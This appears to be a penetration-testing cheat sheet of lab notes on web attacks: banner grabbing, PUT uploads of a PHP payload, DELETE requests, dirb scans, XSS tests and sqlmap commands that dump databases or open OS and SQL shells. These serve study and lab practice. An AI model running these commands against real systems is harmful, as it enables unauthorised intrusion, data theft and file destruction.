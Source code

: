 ```yaml
---
description: Web application vulns and exploits
---
```


# Web Attacks

## Banner grabbing

### Netcat (for HTTP services) <a href="#netcat-for-http-services" id="netcat-for-http-services"></a>

```
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

### OpenSSL (for HTTPS services) <a href="#openssl-for-https-services" id="openssl-for-https-services"></a>

```
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
```

### Httprint <a href="#httprint" id="httprint"></a>

```
httprint -P0 -h 10.10.10.10 -s /usr/share/httprint/signatures.txt
```

## HTTP Verbs <a href="#http-verbs" id="http-verbs"></a>

`GET, POST, HEAD, PUT, DELETE`

### PUT is used to upload a file to the server <a href="#put-is-used-to-upload-a-file-to-the-server" id="put-is-used-to-upload-a-file-to-the-server"></a>

You have to find the size of the file you are uploading first

```
wc -m payload.php
[size] payload.php
```

```
nc 10.10.10.10 80
PUT /payload.php
Content-type: text/html
Content-length: [size]

```

### DELETE is used to delete a file from the server <a href="#delete-is-used-to-delete-a-file-from-the-server" id="delete-is-used-to-delete-a-file-from-the-server"></a>

```
nc 10.10.10.10 80
DELETE /path/to/file.txt / HTTP/1.0
```

### OPTIONS is used to query the webserver for enabled HTTP Verbs <a href="#options-is-used-to-query-the-webserver-for-enabled-http-verbs" id="options-is-used-to-query-the-webserver-for-enabled-http-verbs"></a>

```
nc 10.10.10.10 80
OPTIONS / HTTP/1.0
```

## Directory and File scanning <a href="#directory-and-file-scanning" id="directory-and-file-scanning"></a>

### Dirbuster <a href="#dirbuster" id="dirbuster"></a>

![Dirbuster](https://gblobscdn.gitbook.com/assets%2F-M\_9npUfU\_wpKvUX\_GaB%2F-MagR4YPOWTFD\_15vHvL%2F-MahfUhT53l7HHnpBBge%2Fdirbuster.png?alt=media\&token=61b8043d-946f-4850-884f-0fb38c3ae4d7)

### dirb <a href="#dirb" id="dirb"></a>

```
dirb http://10.10.10.10/
```

**If Webpage is authenticated**

```
dirb http://10.10.10.10/ -u <username>:<password>
```

1. You can choose different wordlists for the dictionary brute force but from my experience in most labs you can find them in the `common.txt`
2. You can also choose different extensions but _`php`_ and _`bak`_ will be the most useful ones to find.
3. If there is HTTP authentication or login of some other kind for the webpage you can set the creds using \[Options -> Advanced Options -> Authentication options]
4. The con with Dirbuster is that it sometimes freezes which is a real bummer otherwise it's real good.

## Google Dorks <a href="#google-dorks" id="google-dorks"></a>

`site:` \
`intitle:` \
`inurl:` \
`filetype:` \
`AND, OR & |` \
`-`

​[GHDB](https://www.exploit-db.com/google-hacking-database) for more resources.

## XSS (Cross-Site Scripting) <a href="#xss-cross-site-scripting" id="xss-cross-site-scripting"></a>

1. Find a reflection point
2. Test with HTML tag (\<h1>Test\</h1>)
3. Test with JS code \[alert('XSS')]

XSS filter bypass cheatsheet: [OWASP cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)​

**Reflected XSS**: Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload.

**Persistent XSS**: Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post.

## SQL Injections <a href="#sql-injections" id="sql-injections"></a>

### GET <a href="#get" id="get"></a>

```
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id
```

```
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U
```

### Database USER <a href="#database-user" id="database-user"></a>

```
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --user
```

### Databases <a href="#databases" id="databases"></a>

```
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dbs
```

### Dump all <a href="#dump-all" id="dump-all"></a>

```
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dump
```

### POST <a href="#post" id="post"></a>

Find the parameters that are being passed in POST using BurpSuite. \
E.g: **`username=some&password=thing`** where the parameter username is vulnerable.

```
sqlmap -u 'http://10.10.10.10/login.php' --data='username=some&password=thing' -p username --technique=B
```

**The Databases, Users and dump-all switches are the same as for the GET parameter.**

If you aren't able to deduce which parameter is vulnerable in POST, you can drop the -p switch. SQLMAP will try to test them and find them on its own so don't sweat it and also for most of the prompts use the default options(i.e. just press enter).

The --technique switch is to create less noise and prevent the service from shutting down due to query overload. If the given techniques do not work try it removing the switch.

### OS-Shell <a href="#os-shell" id="os-shell"></a>

```
sqlmap -u "http://10.10.10.10/login.php" --os-shell
```

### SQL-Shell <a href="#sql-shell" id="sql-shell"></a>

```
sqlmap -u "http://10.10.10.10/login.php" --sql-shell
```
